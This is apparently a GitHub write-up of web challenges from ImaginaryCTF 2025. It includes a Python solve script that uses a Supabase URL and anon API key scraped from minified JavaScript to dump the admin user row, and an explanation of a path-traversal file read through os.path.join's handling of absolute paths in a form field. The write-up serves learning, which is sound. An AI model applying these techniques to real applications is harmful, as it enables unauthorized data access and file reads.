 -----------

### Imaginary CTF 2025

-----------

![image](https://github.com/user-attachments/assets/a6341580-8aea-42ec-8676-11eda1a5dcc2)

-------------

### Challenges 

-------------

- Web-:
  - Imaginary notes
  - Codenames 1

---------------

### Imaginary-notes

----------------

![image](https://github.com/user-attachments/assets/5a5b57d5-e346-4a49-8be8-9b1b2e1e779b)

-----------------

- We have a Nextjs application.I checked the `view-source` for minified js files and discovered one.

![image](https://github.com/user-attachments/assets/463cf46a-cc68-4ab5-9789-175a7e7c9fd9)

- I visited the page and discovered a minified code with a supabase url and an api key.

![image](https://github.com/user-attachments/assets/6473f555-28f2-4b85-880c-e01c1326433c)

- Solve.py-:

```python3
#! /usr/bin/env python3
from  supabase import Client,create_client

url = "https://dpyxnwiuwzahkxuxrojp.supabase.co"
key = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI"

client =  create_client(url,key)
data = client.table("users").select("*").eq("username","admin").execute()
print(data)
```

- Flag-: ```ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}```

![image](https://github.com/user-attachments/assets/795fd795-7725-4272-9ca8-cdf1c4d4b376)

--------------------

### Codenames 1

--------------------

![image](https://github.com/user-attachments/assets/f620acb4-0cec-405e-84e3-68bc09581ecb)

--------------------

- The main sink is in route `/create_game` and in body query `language`.

```python3
@app.route('/create_game', methods=['POST'])
def create_game():
    if 'username' not in session:
        return redirect(url_for('index'))
    # generate unique code
    while True:
        code = ''.join(random.choices(string.ascii_uppercase + string.digits, k=6))
        if code not in games:
            break
    # prepare game with selected language word list
    # determine language (default to first available)
    language = request.form.get('language', None)
    if not language or '.' in language:
        language = LANGUAGES[0] if LANGUAGES else None
    # load words for this language
    word_list = []
    if language:
        wl_path = os.path.join(WORDS_DIR, f"{language}.txt")
        try:
            with open(wl_path) as wf:
                word_list = [line.strip() for line in wf if line.strip()]
        except IOError as e:
            print(e)
            word_list = []
    # fallback if needed
    if not word_list:
        word_list = []
```
- The variable gets passed to the second argumnet in `os.path.join()` which an attacker can control to file read in such a way that abuses `os.path.join()`'s quirk. If the first argument is a relative path and the second path is an absolute one.The function picks the second one which is an absolute and nullifies the first argument. e.g

![image](https://github.com/user-attachments/assets/e5bfe061-b0fb-40b1-8228-a5f48e3df356)

- Exploiting it-:

![image](https://github.com/user-attachments/assets/7d288798-3711-4744-8039-e2a3f537c82b)


- Flag-: ```ictf{common_os_path_join_L_b19d35ca}```

![image](https://github.com/user-attachments/assets/a1591cc9-f887-41f3-ae8e-468b2a9e6073)

----------------

### Certificate

----------------

![image](https://github.com/user-attachments/assets/db68475e-987a-4c8a-835e-98a3952cac32)

----------------

- The page does not print certificate for Hacker tag `Eth007`, it redacts it.

![image](https://github.com/user-attachments/assets/3b55bc1d-57d3-4129-8423-22daeaa4e3ca)

- I checked the source and found a function that creates the flag.

```js
function makeFlag(name){
  const clean = name.trim() || "anon";
  const h = customHash(clean);
  return `ictf{${h}}`;
}
```

- Solution-: ```ictf{7b4b3965}```

![image](https://github.com/user-attachments/assets/1f660825-164d-47c9-91ba-f28a343f1e99)


----------------

### Passwordless

---------------

![image](https://github.com/user-attachments/assets/69ccb915-aab8-4e33-ba4f-3dd96a5dd7aa)

-----------------

-----------------


